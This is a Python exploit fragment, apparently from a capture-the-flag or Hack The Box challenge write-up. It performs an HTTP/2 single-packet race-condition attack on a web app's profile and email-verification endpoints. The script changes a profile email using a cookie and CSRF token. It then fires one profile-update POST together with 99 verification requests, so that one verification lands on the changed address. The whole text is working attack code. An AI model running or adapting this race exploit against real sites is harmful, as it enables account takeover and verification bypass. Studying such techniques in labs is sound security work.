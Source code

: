 ```python

    Headers = { "Cookie" : cookie, "content-type": "application/x-www-form-urlencoded" }
    data="email=test%40email.htb&username=estes&fullName=test&antiCSRFToken="+CSRF
    urlReset="https://"+host+":"+str(puerto)+"/challenge/api/profile"
    responseReset = requests.post(urlReset, data=data, headers=Headers, verify=False)

    print(responseReset.status_code)

    h2_conn = H2OnTlsConnection(
        hostname=host,
        port_number=puerto
    )

    h2_conn.setup_connection()

    try_num = 100

    stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

    all_headers_frames = []  # all headers frame + data frames which have not the last byte
    all_data_frames = []  # all data frames which contain the last byte


    for i in range(0, try_num):
        last_data_frame_with_last_byte=''
        if i == try_num/2:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
                method='POST',
                headers_string=headersObjetivo,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=bodyObjetivo,
                path='/challenge/api/profile'
            )
        else:
            header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(
                method='GET',
                headers_string=headersVerification,
                scheme='https',
                stream_id=stream_ids_list[i],
                authority=host,
                body=".",
                path='/challenge/api/sendVerification'
            )

        all_headers_frames.append(header_frames_without_last_byte)
        all_data_frames.append(last_data_frame_with_last_byte)


    # concatenate all headers bytes
    temp_headers_bytes = b''
    for h in all_headers_frames:
        temp_headers_bytes += bytes(h)

    # concatenate all data frames which have last byte
    temp_data_bytes = b''
    for d in all_data_frames:
        temp_data_bytes += bytes(d)

    h2_conn.send_bytes(temp_headers_bytes)
```